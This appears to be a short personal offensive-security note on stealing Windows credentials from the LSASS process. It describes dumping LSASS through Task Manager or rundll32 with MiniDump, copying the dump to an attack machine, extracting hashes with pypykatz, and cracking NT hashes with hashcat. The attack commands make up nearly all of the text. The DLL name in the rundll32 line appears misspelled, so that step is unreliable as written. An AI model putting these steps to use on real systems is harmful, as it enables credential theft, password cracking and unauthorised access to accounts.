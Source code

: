 -- -
I believe you still need to have local admin access to dump this.
### Generate Dump File
-- -
#### GUI
If you have RDP/graphical access to a Windows system, you can use the task manager to create an LSASS dump file:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

Find the dump file at: `C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP`

##### cmd
```powershell
# look for lsass.exe and note its PID
tasklist /svc
```
##### PowerShell
```powershell
# note its PID
Get-Process lsass

# generate lsass.dmp dump file
rundll32 C:\windows\system32\comsvc.dll, MiniDump <lsass PID> C:\lsass.dmp full
```

Then just [[Dark Arts/File Transfer/~Home| File transfer]] dump file over to your attack box
### Dump Hashes from dump file
-- -
pypykatz is mimikatz but written in python so you can use it on whatever platform you want. 
```bash
pypykatz lsa minidump <path to dump file> 
```
### Crack NT hashes
-- -
Use hashcat to crack the NT hashes output by pypykatz
```bash
sudo hashcat -m 1000 <hash> <wordlist> 
```
